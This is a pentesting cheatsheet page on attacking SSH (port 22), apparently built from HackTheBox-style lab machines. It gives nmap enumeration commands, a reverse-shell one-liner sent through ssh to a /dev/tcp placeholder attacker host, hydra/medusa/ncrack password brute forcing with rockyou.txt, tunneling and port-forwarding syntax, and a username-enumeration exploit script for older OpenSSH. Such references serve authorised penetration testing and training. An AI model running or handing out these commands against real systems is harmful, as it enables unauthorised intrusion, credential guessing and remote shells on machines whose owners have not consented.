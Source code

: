 ```yaml
---
title: "PORT 22 - SSH"
draft: false
images: []
description: "SSH Cheatsheet"
lead: "SSH Cheatsheet"
menu:
  docs:
    parent: "Ports"
weight: 22
toc: true
---
```


### SSH ENUM
```
nmap -p22 -n -sV --script ssh2-enum-algos 192.168.10.221
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=<username>" <target>
```
### CONNECT TO ANOTHER PORT
```
ssh -p 22022 sunny@10.10.10.76
ERROR: Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

ssh -p 22022 sunny@10.10.10.76 -oKexALgorithms=+diffie-hellman-group1-sha1
```
### REVERSE SHELL
```
ssh -p 22022 sunny@10.10.10.76 -oKexALgorithms=+diffie-hellman-group1-sha1 -t '/bin/bash -i >& /dev/tcp/<ip_attacker>/<port_attacker> 0>&1'
```
### BRUTE FORCE
```
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111

medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh

ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111
```
#### SSH TUNNELING
```
ssh -L <localPort>:<ipVictimLocal>:<portVictimForService> <user>@<ipVictim> (FROM ATTACKER BOX)
ssh -L 4444:127.0.0.1:5901 charix@10.10.10.84
```
### LOCAL PORT FORWARDING
```
ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
```
### REMOTE PORT FORWARDING
```
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```
### DINAMIC PORT FORWARDING
```
ssh -D <local proxy port> -p <remote port> <target>
```
### ENUM USERS < 7.7
```
https://github.com/six2dez/ssh_enum_script
https://www.exploit-db.com/exploits/45233
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null 
```